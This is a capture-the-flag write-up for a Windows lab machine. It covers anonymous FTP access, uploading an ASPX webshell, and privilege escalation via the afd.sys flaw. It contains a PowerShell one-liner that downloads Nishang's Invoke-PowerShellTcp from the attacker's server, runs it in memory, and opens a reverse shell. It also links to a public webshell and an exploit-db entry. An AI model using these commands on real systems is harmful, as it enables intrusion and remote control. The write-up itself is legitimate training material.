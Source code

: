 <p align="center">
  <img width="300" src="https://user-images.githubusercontent.com/43796175/107217985-ff302900-69dc-11eb-999b-b1da568d1ff9.jpg" alt="DEVEL: Write Up">
</p>


# 01: Information Gathering

For starting, run nmap with a basic scan:

<p align="center"><img src="https://user-images.githubusercontent.com/43796175/107400057-70e89f80-6acf-11eb-95f3-6870ccbbe0b0.jpg"></p>

Two open ports can be seen, 21 FTP and 80 HTTP. Now, run again nmap but this time with an more advanced scan against the ports found:

<p align="center"><img src="https://user-images.githubusercontent.com/43796175/107400771-274c8480-6ad0-11eb-84f7-7b9a8b83b733.jpg"></p>

In this point, you can think about login in FTP with Anonymous credentials (port 21) and go more deep through HTTP and fuzzing (port 80).

# 02: Threat Modeling

Login in FTP with username and password "Anonymous" is possible:

<p align="center"><img src="https://user-images.githubusercontent.com/43796175/107401864-4bf52c00-6ad1-11eb-9a7b-f795670ea890.jpg"></p>

Think if you can reach any files in the directory through which you had FTP access. For example, try to get through HTTP request the image "welcome.png":

<p align="center"><img src="https://user-images.githubusercontent.com/43796175/107403079-b0fd5180-6ad2-11eb-80f8-092abfe6745e.jpg"></p>

Perfect, now you can try upload a webshell and visualize it in the browser:

# 03: Vulnerability Analysis

You can search the webshell necessary simply googling it. I found the next webshell which work fine:

<p align="center"><img src="https://user-images.githubusercontent.com/43796175/107413191-77324800-6ade-11eb-9dea-e66478f2d98e.jpg"></p>

<p align="center">https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/asp/cmdasp.aspx</p>

With FTP upload the webshell, using "put" command for this purpose:

<p align="center"><img src="https://user-images.githubusercontent.com/43796175/107413380-b1034e80-6ade-11eb-9557-089ca6cb717b.jpg"></p>

Try to see the webshell through browser, in http://10.10.10.5/cmdasp.aspx:

<p align="center"><img src="https://user-images.githubusercontent.com/43796175/107413825-34bd3b00-6adf-11eb-825d-a8d618e3ae18.jpg"></p>

You can see that is possible run commands efectly, then the more obviusly thought is get a reverse shell. For this, use Nishang that is a framework and collection of scripts and payloads which enables usage of PowerShell, in concret, you go to use the module of shells PS "Invoke-PowerShellTcp.ps1":

<p align="center"><img src="https://user-images.githubusercontent.com/43796175/107414596-39362380-6ae0-11eb-84c9-9d326bf577c9.jpg"></p>

<p align="center">https://github.com/samratashok/nishang/tree/master/Shells</p>

# 04: Exploitation

Download the RAW file of this module:

<p align="center"><img src="https://user-images.githubusercontent.com/43796175/107417782-f1190000-6ae3-11eb-8bb1-4e254b43e2b2.jpg"></p>

A good approach is execute the reverseShell in memory, like Nishang project describe:

<p align="center">https://github.com/samratashok/nishang</p>

"*Method 1. Use the in-memory dowload and execute: Use below command to execute a PowerShell script from a remote shell, meterpreter native shell, a web shell etc. and the function exported by it. All the scripts in Nishang export a function with same name in the current PowerShell session.*"

The next line is used for this:

```ps
powershell iex (New-Object Net.WebClient).DownloadString('http://<yourwebserver>/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress [IP] -Port [PortNo.]
```

Change the value necessary with your VPN IP address and port:

```ps
powershell iex (New-Object Net.WebClient).DownloadString('http://<YourVpnIP>:1234/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress <YourVpnIP> -Port 1337
```

Configure a python server in port 1234 and netcat listening in the port 1337:

<p align="center"><img src="https://user-images.githubusercontent.com/43796175/107417029-2cff9580-6ae3-11eb-979b-a16af27eb2cc.jpg"></p>

Paste the code in the webShell and you recive the reverse connection:

<p align="center"><img src="https://user-images.githubusercontent.com/43796175/107418832-2114d300-6ae5-11eb-80d1-e63f9dca3e5d.jpg"></p>

<p align="center"><img src="https://user-images.githubusercontent.com/43796175/107418604-dabf7400-6ae4-11eb-95ef-d829c5de8ee1.jpg"></p>

# 05: Post-Exploitation

The first step for me is run "*systeminfo*" command in Windows a look for "Hotfix(s)" in the OS:

<p align="center"><img src="https://user-images.githubusercontent.com/43796175/107423243-1ad52580-6aea-11eb-9668-1ac1c56fdc78.jpg"></p>

From the above information, you know that:

* OS is Windows 7 Enterprise
* OS Version 6.1.7600
* Don't have anyone Hotfix done

Then, a quickly search in Google gives some one results, you wanna see the results relationated with "*afd.sys*":

<p align="center"><img src="https://user-images.githubusercontent.com/43796175/107424736-02fea100-6aec-11eb-9759-3a1110216d4d.jpg"></p>

The vulnerability make reference to the Ancillary Function Driver (AFD) supports Windows sockets applications and is contained in the afd.sys file. The afd.sys driver runs in kernel mode and manages the Winsock TCP/IP communications protocol. 

An elevation of privilege vulnerability exists where the AFD improperly validates input passed from user mode to the kernel.

An attacker must have valid logon credentials and be able to log on locally to exploit the vulnerability.

An attacker who successfully exploited this vulnerability could run arbitrary code in kernel mode (i.e. with NT AUTHORITY\SYSTEM privileges).

<p align="center"><img src="https://user-images.githubusercontent.com/43796175/107425166-a2bc2f00-6aec-11eb-8601-267fe5ab42a9.jpg"></p>

<p align="center">https://www.exploit-db.com/exploits/40564</p>


